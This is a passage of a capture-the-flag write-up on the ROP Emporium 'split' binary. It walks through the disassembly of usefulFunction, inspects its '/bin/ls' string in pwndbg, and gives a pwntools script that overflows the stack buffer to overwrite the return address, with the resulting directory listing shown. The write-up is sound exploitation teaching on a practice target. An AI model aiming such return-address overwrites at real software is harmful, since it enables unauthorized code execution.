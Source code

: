 - First, the register `rbp` is pushed to the stack, and the address from `rsp` is moved onto `rbp`. The register `rbp` is special - it holds the base address of the *stack frame* for the function usefulFunction, a section of the stack allocated for the function to store variables, parameters, and return addresses. In other words, the stack frame is a place in the stack for the function and the function only, and the base address denotes the start of it. The address stored in `rsp` is moved to `rbp` because `rsp` holds the current top of the stack, and transferring this address to `rbp` establishes `rbp` as the starting point of the function.
- Next, the syscall system is called. Right before it’s called, the value from the address `0x40084a` is moved onto the `edi` register, setting up the value from `0x40084a` to be the first (and only parameter) for the system function.
- After system is called, the register `rbp` is popped from the stack, restoring its previous value, and the function returns through the instruction `ret`. The `nop` instruction, as it looks, does nothing. It’s likely present for alignment to maintain a consistent instruction length.
- System is called by calling the address `0x400560`, meaning the `system` function is linked to that address. This is due to the Procedure Linkage Table (PLT), which links shared library functions to addresses so they can be called within the program.

So, let’s look at the value present in the address `0x40084a`.

```
pwndbg> x/s 0x40084a
0x40084a:	"/bin/ls"
pwndbg> 
```

So, the address `0x40084a` stores the value "/bin/ls", meaning usefulFunction lists the files in the program’s directory. Let’s confirm this through a script similar to how we solved last challenge.

```python
from pwn import *

p = process("./split", stdout=PIPE, stderr=PIPE)

# Address of usefulFunction
useful_address = 0x400742

# Payload
payload = b"A" * 32             # Fill the buffer
payload += b"B" * 8             # Fill the base pointer
payload += p64(useful_address)  # Change the return address
                                # to call usefulFunction
# Send the payloads
p.sendline(payload)

# Get the result
p.interactive()
```

And, as expected, we simply get a list of files in the current directory.

```
(myenv) root@ubuntu:/home/c-bass/pwn/ropemporium/split# python3 list.py
[+] Starting local process './split': pid 152921
[*] Switching to interactive mode
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
**flag.txt**
list.py
solve.py
split
split.zip
[*] Got EOF while reading in interactive
$  
```
